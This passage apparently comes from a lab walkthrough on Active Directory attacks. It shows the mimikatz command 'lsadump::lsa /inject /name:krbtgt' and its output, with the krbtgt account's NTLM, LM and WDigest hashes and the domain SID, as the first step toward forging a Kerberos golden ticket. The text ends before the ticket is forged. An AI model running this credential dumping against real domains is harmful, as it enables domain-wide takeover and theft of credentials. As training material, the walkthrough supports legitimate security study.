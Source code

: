 ![](img/dumping-hashes-answers.png)

___

### Golden Ticket 

We will first dump the hash and sid of the **krbtgt** user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

#### Dump hash and sid of krbtgt

- `lsadump::lsa /inject /name:krbtgt` &rarr; dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket:

```cmd
mimikatz # lsadump::lsa /inject /name:krbtgt 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 
                                                              
RID  : 000001f6 (502)                                         
User : krbtgt                                                 
                                                              
 * Primary                                                    
    NTLM : 5508500012cc005cf7082a9a89ebdfdf 
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    04  49a8de3b6c7ae1ddf36aa868e68cd9ea
    05  7902703149b131c57e5253fd9ea710d0
    06  df5ad3cc1ff643663d85dabc81432a81
    07  49a8de3b6c7ae1ddf36aa868e68cd9ea 
    08  a489809bd0f8e525f450fac01ea2054b
    09  19e54fd00868c3b0b35b5e0926934c99
    10  4462ea84c5537142029ea1b354cd25fa
    11  6773fcbf03fd29e51720f2c5087cb81c
    12  19e54fd00868c3b0b35b5e0926934c99
    13  52902abbeec1f1d3b46a7bd5adab3b57
    14  6773fcbf03fd29e51720f2c5087cb81c
    15  8f2593c344922717d05d537487a1336d
    16  49c009813995b032cc1f1a181eaadee4
    17  8552f561e937ad7c13a0dca4e9b0b25a
    18  cc18f1d9a1f4d28b58a063f69fa54f27 
    19  12ae8a0629634a31aa63d6f422a14953
    20  b6392b0471c53dd2379dcc570816ba10
    21  7ab113cb39aa4be369710f6926b68094
    22  7ab113cb39aa4be369710f6926b68094
    23  e38f8bc728b21b85602231dba189c5be
    24  4700657dde6382cd7b990fb042b00f9e
    25  8f46d9db219cbd64fb61ba4fdb1c9ba7
    26  36b6a21f031bf361ce38d4d8ad39ee0f
    27  e69385ee50f9d3e105f50c61c53e718e
```